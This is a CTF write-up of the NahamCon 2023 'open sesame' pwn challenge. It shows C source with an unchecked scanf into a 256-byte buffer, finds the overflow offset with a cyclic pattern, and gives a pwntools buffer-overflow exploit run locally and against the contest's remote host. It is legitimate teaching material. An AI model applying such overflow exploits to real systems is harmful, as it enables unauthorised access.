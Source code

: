 ```yaml
---
title: "Nahamcon 23 | open sesame"
summary: "pwn"
categories: ["Post","writeup","pwn", "ctf"]
tags: ["pwn","pwntools", "writeup"]
header_img: img/naham.png
showSummary: true
date: 2023-06-23
draft: false
---
```



This was a CTF for nahamcon that took place recently, I solved some of the challenges, some during the CTF and others after the CTF.

In this I will discuss how I solved the open sesame challenge.

#### challenge question.
![image](chal.PNG)

So we are given 2 files, the source code and the binary itself. Checking the source code:

<pre>#include <stdlib.h>
#include <string.h>
#include <stdio.h>

#define SECRET_PASS "OpenSesame!!!"

typedef enum {no, yes} Bool;

void flushBuffers() {
    fflush(NULL);
}

void flag()
{  
    system("/bin/cat flag.txt");
    flushBuffers();
}

Bool isPasswordCorrect(char *input)
{
    return (strncmp(input, SECRET_PASS, strlen(SECRET_PASS)) == 0) ? yes : no;
}

void caveOfGold()
{
    Bool caveCanOpen = no;
    char inputPass[256];
    
    puts("BEHOLD THE CAVE OF GOLD\n");

    puts("What is the magic enchantment that opens the mouth of the cave?");
    flushBuffers();
    
    scanf("%s", inputPass);

    if (caveCanOpen == no)
    {
        puts("Sorry, the cave will not open right now!");
        flushBuffers();
        return;
    }

    if (isPasswordCorrect(inputPass) == yes)
    {
        puts("YOU HAVE PROVEN YOURSELF WORTHY HERE IS THE GOLD:");
        flag();
    }
    else
    {
        puts("ERROR, INCORRECT PASSWORD!");
        flushBuffers();
    }
}

int main()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    caveOfGold();

    return 0;
}
</pre>
SO the most basic explanation, is the program defines a password kind of string, then there is a flag function which callsthe system function and then the cave of gold function which requires some kind of input pass and is defined to 256 bytes. There is also a function that checks if the password is correct and if it is then it will print out a message and then execute the flag function, that is what we want right?

Lets run the program and see what it does. ![image](re1.PNG)

Since that did not work, let us try to overflow the buffer, we know that it takes 256 bytes of data, so what will happen if we input more than that?
We use cyclic 300 ![image](re2.PNG)
We get a seg fault, let us find the offset now since we know the program is vulnerable to buffer overflow.

<pre> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac </pre>

set the breakpoint at the puts function after the scanf function ![image](re3.PNG)

copy the value in rsp and let us find our offset. ![image](re5.PNG)
 ```python
 cyclic -l "uaacvaacwaacxaacyaac"
```
We get the offset ![image](re6.PNG)
Now from there, we already know that we have to input the secret_pass which is ```OpenSesame!!!```

With that let us develop the exploit!
```python
from pwn import *

binary = context.binary = ELF("./open_sesame", checksec=False)


p = process()

secret = b"OpenSesame!!!"

# The number of characters needed
padding = b"A"*280

payload = secret+padding

# receive the input ftom the program until cave?
p.recvuntil(b"cave?")
p.sendline(payload)
p.interactive()

```
That should gives us the flag , fingers crossed! Create a fake flag.txt in the same directory as the binary and you can give it any characters you want.
![image](re7.PNG) Nice we get our fake flag, now run it with remote details.

 ```
from pwn import *

binary = context.binary = ELF("./open_sesame", checksec=False)


# p = process()
p = remote("challenge.nahamcon.com",31595)
secret = b"OpenSesame!!!"

# The number of characters needed
padding = b"A"*280

payload = secret+padding

# receive the input ftom the program until cave?
p.recvuntil(b"cave?")
p.sendline(payload)
p.interactive()
 ```